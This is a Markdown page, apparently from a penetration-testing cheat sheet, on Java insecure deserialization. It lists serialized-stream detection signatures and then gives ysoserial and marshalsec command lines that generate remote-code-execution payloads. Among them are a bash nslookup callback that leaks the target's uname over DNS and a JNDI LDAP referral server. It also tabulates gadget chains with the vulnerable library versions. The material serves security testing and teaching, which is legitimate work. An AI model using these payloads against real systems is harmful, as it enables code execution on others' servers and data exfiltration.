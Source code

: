 +++
title = "Insecure Deserialization - Java"
description = "Java insecure object deserialization attacks, everything you need to know"
date = '2023-03-23'
include_toc = 'true'
+++

# Java Deserialization

## Detection

`"AC ED 00 05"` in Hex
`AC ED: __STREAM_MAGIC__.` Specifies that this is a serialization protocol.
`00 05: __STREAM_VERSION__.` The serialization version.
`"rO0"` in Base64
`Content-type = "application/x-java-serialized-object"`
`"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that
exploit unsafe Java object deserialization.

```bash
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

List of payloads included in ysoserial:
```bash
	Payload             Authors                                Dependencies
	-------             -------                                ------------
	AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
	BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
	C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
	Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
	Clojure             @JackOfMostTrades                      clojure:1.8.0
	CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
	CommonsCollections1 @frohoff                               commons-collections:3.1
	CommonsCollections2 @frohoff                               commons-collections4:4.0
	CommonsCollections3 @frohoff                               commons-collections:3.1
	CommonsCollections4 @frohoff                               commons-collections4:4.0
	CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
	CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
	CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
	FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
	Groovy1             @frohoff                               groovy:2.3.9
	Hibernate1          @mbechler
	Hibernate2          @mbechler
	JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
	JRMPClient          @mbechler
	JRMPListener        @mbechler
	JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
	JavassistWeld1      @matthias_kaiser                      javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
	Jdk7u21             @frohoff
	Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
	MozillaRhino1       @matthias_kaiser                       js:1.7R2
	MozillaRhino2       @_tint0                                js:1.7R2
	Myfaces1            @mbechler
	Myfaces2            @mbechler
	ROME                @mbechler                              rome:1.0
	Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
	Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
	URLDNS              @gebl
	Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
	Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

### Burp extensions using ysoserial
 - JavaSerialKiller
 - Java Deserialization Scanner
 - Burp-ysoserial
 - SuperSerial
 - SuperSerial-Active

### Alternative Tooling
 - pwntester/JRE8u20_RCE_Gadget
 - joaomatosf/JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
 - pimps/ysoserial-modified
 - NickstaDB/SerialBrute - Java serialization brute force attack tool
 - NickstaDB/SerializationDumper - A tool to dump Java serialization streams in a more human readable form
 - bishopfox/gadgetprobe
 - mbechler/marshalsec - Turning your data into code execution

```bash
$ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
$ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
$ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
		-a - generates/tests all payloads for that marshaller
		-t - runs in test mode, unmarshalling the generated payloads after generating them.
		-v - verbose mode, e.g. also shows the generated payload in test mode.
 - gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific
marshaller.
 - arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:

|Marshaller|Gadget|Impact|
|:--- |:--- |:---
|BlazeDSAMF|(0|3|X)|JDK only escalation to Java serialization various third party libraries RCEs
|Hessian|Burlap|Various third party RCEs
|Castor|dependency|library RCE
|Jackson|possible|JDK only RCE, various third party RCEs
|Java||yet another third party RCE
|JsonIO||JDK only RCE
|JYAML||JDK only RCE
|Kryo||third party RCEs
|KryoAltStrategy||JDK only RCE
|Red5AMF(0|3)||JDK only RCE
|SnakeYAML||JDK only RCEs
|XStream||JDK only RCEs
|YAMLBeans||third party RCE


## Gadgets
Require: * java.io.Serializable


## References
 - [Github - ysoserial](https://github.com/frohoff/ysoserial)
 - [Triggering a DNS lookup using Java Deserializatio]n -paranoidsoftware.com](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
 - [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau | Mar 22,2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
 - [Java-Deserialization-Cheat-Sheet -GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
 - [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
 - [How i found a 1500$ worth Deserialization vulnerability -@D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
 - [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, PeterStöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
 - [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
 - [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
 - [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
